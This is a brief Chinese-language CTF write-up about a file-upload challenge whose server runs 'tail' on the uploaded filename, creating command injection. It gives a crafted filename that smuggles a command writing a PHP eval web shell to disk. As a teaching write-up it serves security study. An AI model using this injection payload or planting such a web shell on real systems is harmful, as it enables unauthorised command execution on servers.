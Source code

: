 **Writeup**

整体逻辑：文件上传就一定是文件上传吗？【web思路】
    
    前段时间遇到了一个web的真实场景，改编成了一道CTF题目，主要是给web提供一些思路，如果没遇到估计很难想象还会出现这样的代码出现。。。

考点：
    
    文件上传不一定是文件上传，有可能涉及命令执行，给代码审计和渗透测试提供了新的思路。

测试代码：【如下图源代码】
    
    ![Alt text](../Base_Img/web9/1.png)
    
Writeup：
    
    从上面的代码可以看出整个流程为，用户通过前端上传文件，通过检测文件上传后的文件名，如果不是txt结束，如果是txt则将上传的文件移动到新的位置，然后执行tail命令，输出文本的最后一行内容。 流程是没有问题的，但是过于相信用户可控的输入，没有进行过滤导致出现命令执行漏洞。如果我们通过截断exec执行的命令，写入一个shell会怎么样呢？ 我们可以尝试将文件名构造一下1;echo '<?php @eval($_POST[c]); ?>' >1.php;1.txt【在windows不能这么命名，需要抓包改一下在上传】
    ![Alt text](../Base_Img/web9/2.png)
    这时候发现在目录下已经生成1.php的shell文件，链接后可以执行命令
    ![Alt text](../Base_Img/web9/3.png)

参考链接：